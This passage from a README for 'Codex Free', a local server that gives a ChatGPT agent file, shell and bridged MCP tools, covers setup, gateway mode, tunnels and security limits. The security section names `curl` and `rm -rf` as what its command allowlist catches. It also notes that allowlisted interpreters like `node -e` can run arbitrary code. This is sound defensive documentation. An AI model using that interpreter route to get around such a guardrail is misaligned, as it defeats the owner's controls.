**What the model sees.** The catalogue — a name and a description per skill — goes into the project-aware brief under a `## Skills` heading. In single-project mode that is available at initialization; in multi-project mode it arrives from `get_agent_brief` after selection. Bodies are not loaded: `skills_read` fetches one only once a skill has actually been chosen. That is the progressive disclosure that makes a large library affordable on a small context window. The section is omitted entirely when nothing is installed.

**Reaching the rest of a package.** Reference files, scripts and assets are read with `skills_read` and the skill's name, passing the file's path as `resource`. `read_file` will not do: it is confined to the active project root, and user- and plugin-scope skills live in your home directory. Paths inside a skill are relative to the skill's own directory, and a `resource` that tries to leave it is rejected — so the only thing this opens up is the inside of a skill you or the project deliberately installed. Reading a `SKILL.md` lists the package's other files, since the model cannot glob a directory it cannot see.

Discovery runs per MCP session, so adding a skill takes effect on the next connection without restarting the server. Set `skills.enabled` to `false` to turn the whole thing off.

## Bridging other MCP servers

Codex Free can also act as an **MCP aggregator**: it connects to your other local MCP servers as a client, discovers their tools at startup, and re-exposes them through its own `/mcp` endpoint — so the ChatGPT-side agent sees and can call them too.

### Automatic discovery from Codex

By default, Codex Free imports the MCP servers from Codex's user-level configuration: `$CODEX_HOME/config.toml` when `CODEX_HOME` is set, otherwise `~/.codex/config.toml`. The file is read only; Codex Free never rewrites it. This initial implementation intentionally does not reproduce Codex's project-local configuration layers or trust decisions.

For each `[mcp_servers.<name>]` entry, Codex Free imports the fields it can preserve:

- `command`, `args`, `env` and `cwd` for local stdio launch;
- local `env_vars`, resolved from Codex Free's process environment;
- `enabled = false` as a disabled upstream;
- `enabled_tools` as an allow-list and `disabled_tools` as a deny-list applied afterwards.

Streamable-HTTP entries (`url`) and non-local execution environments are skipped because the bridge currently supports only local stdio children. Other Codex-only fields are ignored explicitly: the startup report names those fields, but never prints environment values or other configuration values. A missing or unreadable Codex config does not prevent servers declared directly in `codex.config.json` from loading.

Disable discovery while retaining explicit upstreams with:

```json
{
  "codexMcp": { "enabled": false },
  "mcpServers": {}
}
```

### Explicit servers and overrides

The `mcpServers` map in `codex.config.json` remains supported. Each entry is a stdio command that Codex Free launches and drives over stdin/stdout:

```json
{
  "mcpServers": {
    "idasql": {
      "command": "idasql-mcp",
      "args": ["--stdio"],
      "env": { "IDA_PATH": "C:/Program Files/IDA" }
    }
  }
}
```

An explicit entry with the same name as an imported Codex server is a field-by-field overlay. That makes Codex-specific launch settings reusable while adding bridge-only settings without copying the command, arguments or environment:

```json
{
  "mcpServers": {
    "remote-exec": {
      "mode": "gateway",
      "tools": ["exec", "machine_list"]
    }
  }
}
```

Set an empty array or object to replace an imported collection with an empty one. Explicit `command` and `url` fields replace the imported transport rather than producing a mixed configuration.

At startup you'll see, e.g.:

```
Codex MCP discovery: /home/user/.codex/config.toml
  idasql -> imported from Codex
  remote-exec -> imported fields overlaid by codex.config.json
bridged MCP server 'idasql': 12 tool(s)
Tools loaded (37): 25 native + 12 bridged from upstream MCP servers
```

Each upstream tool is offered as `<server>__<tool>` (for example `remote_exec__docker_ps`), and calls are forwarded to the upstream verbatim — text, images, structured content and error flags all pass through. An upstream that fails to launch or answer is skipped; it never blocks startup or the native tools.

Every configured server is reported in the startup banner, so a bad path or a failed handshake is never silent:

```
Upstream MCP servers:
  remote-exec -> 84 tool(s)
  idasql      -> FAILED: could not launch 'D:/wrong/path.exe': The system cannot find the path specified. (os error 3)
```

- `disabled: true` on an entry keeps its config but skips it (shown as `-> disabled`).
- `tools: ["exec", "machine_list", ...]` limits which upstream tools are bridged (an allow-list on the upstream's own names).
- `disabledTools: ["dangerous_write", ...]` removes tools after the allow-list has been applied.
- `cwd` selects the child process's working directory.
- Bridged names are sanitised to `[A-Za-z0-9_]` (e.g. `remote_exec__exec`) so function-calling layers that reject hyphens don't drop them.
- A bridged name that would collide with a native tool is skipped with a warning.
- `type` may be `"stdio"` (default). Only stdio (command-launched) upstreams are bridged today; `type: "sse"`/`"http"` (or a bare `url`) entries are recognised and reported as `not supported yet` rather than failing the whole config.

If your server doesn't show up, **check the banner first** — the most common cause is a wrong `command` path.

### Gateway mode

Some clients (ChatGPT among them) won't reliably surface a large bridged tool set. **`mode: "gateway"`** collapses a whole server with many tools into a **single** dispatcher tool, plus a generated skill:

```json
"mcpServers": {
  "remote-exec": {
    "mode": "gateway"
  }
}
```

When `remote-exec` was imported from Codex, that overlay is sufficient; include its `command` and other launch fields when it exists only in `codex.config.json`. Gateway mode registers one tool named `remote_exec` taking `{ "function": "<name>", "arguments": { ... } }`, and auto-generates a skill (`skills_read name="remote-exec"`) documenting every function and its argument schema. The agent reads the skill, then calls the one tool — so an 84-tool server shows up as **1 tool + 1 skill** instead of 84 tools. `disabled`, `type`, `tools` and `disabledTools` all still apply.

## Connecting to ChatGPT

### With the native OpenAI tunnel

1. In ChatGPT, enable **Developer mode**.
2. Configure `openaiTunnel`, export the referenced runtime key, and start Codex Free. Keep the process running for connector discovery and every tool call.
3. In ChatGPT's connector/plugin settings, create a developer-mode connector with **Connection type: Tunnel**.
4. Select the same tunnel ID that Codex Free reports as ready. Set **Authentication** to **None**.
5. Set the connector's permissions to **Allow all actions** if you do not want per-call confirmations.
6. Enable the connector in a new chat, then open with `Call get_agent_brief and follow it for the rest of this chat.` — see [Acting as a Codex agent](#acting-as-a-codex-agent). In multi-project mode (`--multi-project`), call `set_project_root` first in a new chat; later follow-ups in that same chat can call `get_agent_brief` directly, since the project binding is restored from ChatGPT's conversation metadata.

There is no server URL to enter in this mode. OpenAI routes the selected tunnel to the supervised client, which supplies Codex Free's generated per-process bearer on the local hop. The startup banner prints the runtime-only `/readyz` and `/metrics` URLs. It does not advertise an admin UI because `tunnel-client-runtime` deliberately omits that full-client surface.

### With an externally managed tunnel

1. Start Codex Free without `openaiTunnel` (add `--work-dir /path/to/projects --multi-project` for one connector shared across projects).
2. Put an authenticated reverse proxy or tunnel in front of port `3000`.
3. Create a URL-based developer connector/plugin whose server URL is the resulting HTTPS URL with `/mcp` appended.
4. Configure the connector authentication supported by the client, and enforce access controls at the proxy/tunnel layer.

For example, `ngrok http 3000` is sufficient for a disposable connectivity test, but an unprotected public URL is not an appropriate long-lived deployment. Use provider access policies, source restrictions, mTLS, OAuth, or another control appropriate to the deployment. The `--api-key` option is useful for MCP clients that can send a static bearer token; ChatGPT's connector authentication choices may not support that form directly.

## Host allowlist

Without `openaiTunnel`, `allowedHosts` is empty by default, which accepts any `Host` header so an externally managed proxy can present an arbitrary hostname. Set it to a list of hostnames to enable **DNS-rebinding protection**: only requests whose `Host` header matches are served.

Native tunnel mode ignores `allowedHosts` and forces the accepted authorities to `127.0.0.1`, `localhost`, and `::1`. It also binds only `127.0.0.1` and removes the permissive CORS layer. These restrictions are part of the mode rather than optional hardening.

## Security

- **Path traversal prevention**: every filesystem tool — including `apply_patch` and `view_image` — resolves paths through a guard that rejects anything outside the active project root. In multi-project mode, `set_project_root` canonicalizes both the configured access root and the requested directory, so `..` and symlinks cannot bind a conversation or transport session outside the access root.
- **One bounded exception in single-project mode**: [AGENTS.md](#agentsmd) discovery may read above `--work-dir`, up to the nearest `.git`. It is read-only, opens only `AGENTS.override.md`, `AGENTS.md` and any `projectDoc.fallbackFilenames`, and `get_project_doc` reports the absolute path of every file it used. Set `projectDoc.maxBytes` to `0` to switch it off, or `projectDoc.rootMarkers` to `[]` to keep the search inside the work directory. Multi-project mode does not perform this upward walk; its selected directory is the exact project root.
- **Bounded state writes outside the work directory**: `remember` and `update_plan` write `memory.json` under `~/.codex-free/projects/`. Multi-project mode also writes one small project-binding record under `~/.codex-free/conversation-projects/` for each ChatGPT conversation and access root. Both use atomic replacement and per-record locks. The binding filename is derived from a hash of `openai/session`; the raw identifier is not stored. Set `memory.enabled` to `false` to disable plans and notes; delete `~/.codex-free/conversation-projects/` separately to forget conversation bindings. See [Context and memory](#context-and-memory).
- **Bounded reads outside the work directory**: [skills](#skills) may live in `~/.agents/skills`, `~/.codex/skills`, `~/.claude/skills` or an installed Claude Code plugin. `skills_read` opens files there, but only inside a skill package that already exists — the `resource` path is checked against the skill's own directory, so it cannot walk out into the rest of your home directory. `skills_list` reports the absolute path of every skill it found. Set `skills.enabled` to `false` to switch it off, or `skills.dirs` to point the user scope somewhere you choose.
- **Command allowlist**: `run_command` only runs binaries listed in `allowedCommands`; everything else is rejected. `exec_command` checks the same list plus `exec.extraAllowedCommands`, at every command position in the string.
- **Bridged servers run with your privileges**: an explicit `mcpServers` entry or an automatically imported Codex MCP launches a real process on your machine and forwards the model's calls to it verbatim. Only bridge servers you trust, prefer `tools`/`disabledTools` filters or `gateway` mode to keep the exposed surface small, and set `codexMcp.enabled` to `false` when Codex contains servers that should not be exposed through ChatGPT. A bad `command` path is reported, never silently ignored.
- **Native OpenAI tunnel is outbound-only**: Codex Free binds its MCP listener to loopback and supervises OpenAI's official runtime-only tunnel client. Startup fails unless the runtime reports `/readyz` and completes a control-plane poll. Failure of either process stops the other, and HTTP shutdown has a bounded grace period before remaining connections are aborted.
- **The loopback MCP hop is authenticated**: native mode generates a random per-process bearer token and configures the tunnel runtime to send it on MCP requests and discovery probes. The token is never printed, written to the config file, or inherited by model-launched commands and bridged MCP children.
- **Verified tunnel-client installation**: the managed client is pinned to a specific official release and per-platform archive SHA-256 embedded in Codex Free, extracted by exact filename under size limits, installed atomically with private permissions, and hash-checked against its installation manifest on subsequent starts. Set `clientPath` to opt out of managed installation while retaining compatibility checks.
- **Tunnel secrets are references, not config values**: `openaiTunnel.apiKeyRef` accepts only `env:NAME` or `file:/path`; literal API keys are rejected. Codex Free resolves the value and exposes it only to the tunnel child under a synthetic environment name, while the child receives a clean, allowlisted environment. Use a restricted runtime key with Tunnels **Read** + **Use**, not an admin key. Private key-file permissions are enforced on Unix. Same-user process inspection and same-user file access remain outside this boundary.
- **Optional bearer token auth in non-native mode**: set `--api-key` to require an `Authorization: Bearer <key>` header on all requests except `/health`. Native mode instead owns its private per-process bearer token. ChatGPT Plugins do not support simple bearer token auth for URL-based connectors.
- **Host allowlist**: set `allowedHosts` to pin the accepted `Host` header for DNS-rebinding protection. See [Host allowlist](#host-allowlist).

The allowlist is a **guardrail against accidents, not a sandbox**. It catches a model reaching for `curl` or `rm -rf`; it does not contain a determined one. The defaults already include `node`, `python` and `cargo`, each of which runs arbitrary code — `node -e "..."` can do anything the server process can. Shell redirection and explicit absolute or parent paths can also reach outside the active project root even though each command starts with that root as its cwd. Multi-project selection isolates Codex Free's structured tools and logical per-conversation project state; it is not an operating-system sandbox. Treat everything below as reachable by whoever is authorized to use the configured connector or external endpoint:

- everything in the active project root, read and write
- in multi-project mode, any project beneath the configured access root can be selected by a new conversation or unbound transport session
- anything else the user account running the server can touch, via an allowlisted interpreter
- the network, from your machine
- anything a bridged MCP server can do

`exec_command` sessions that outlive a request are killed when the MCP session closes, and the kill takes the children with it: `taskkill /T /F` walks the process tree on Windows, and on POSIX each session gets its own process group that is signalled as a whole. A process that deliberately re-parents or daemonises itself still escapes, so check for strays if a run leaves something listening.

The native OpenAI tunnel removes the general public-URL exposure, but it does not reduce the authority of a successful tool call. Keep tunnel and connector permissions narrow, do not point Codex Free at directories you do not trust the model with, and set `exec.mode` and the command allowlists tighter than the defaults when the work directory is sensitive. In multi-project mode, the entire access-root subtree is intentionally selectable, so treat the whole subtree as sensitive. For an external tunnel, require tunnel-level access control rather than relying on URL secrecy.

## Dev commands

```bash
cargo run -- --work-dir /path/to/project   # run against a project
cargo build --release                       # optimized binary at target/release/codex-free
cargo test                                  # run the test suite
cargo clippy --all-targets                  # lints
cargo fmt                                    # format
```

The design and module layout are documented in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md).

## License

MIT - see [LICENSE](LICENSE).
